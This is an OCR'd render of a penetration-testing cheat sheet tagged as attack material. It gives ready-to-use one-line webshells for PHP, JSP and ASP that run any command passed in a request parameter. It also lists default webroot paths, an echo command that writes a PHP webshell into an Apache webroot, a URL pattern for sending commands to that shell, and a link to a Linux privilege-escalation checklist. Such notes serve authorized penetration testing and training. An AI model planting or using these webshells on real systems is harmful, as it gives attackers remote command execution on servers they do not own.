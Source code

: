 ## Shells - php webshell - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
<?php system($_REQUEST["cmd"]); ?>
```

## Shells - jsp webshell - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## Shells - asp webshell - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
<% eval request("cmd") %>
```

## Shells - webroots - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo ""
echo ""
echo ""
echo "apache -> /var/www/html"
echo "nginx -> /usr/local/nginx/html"
echo "iis -> c:\\inetpub\\wwwroot"
echo "xampp -> C:\\xampp\\htdocs"
```

## Shells - cmd injection example webshell to apache webroot - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Shells - cmd injection example webshell to apache webroot (execution) - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
http://<targetIP-URL>:<port>/shell.php?cmd=<command>
```

## Privesc - hacktricks linux privesc checklist - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
firefox https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html
```
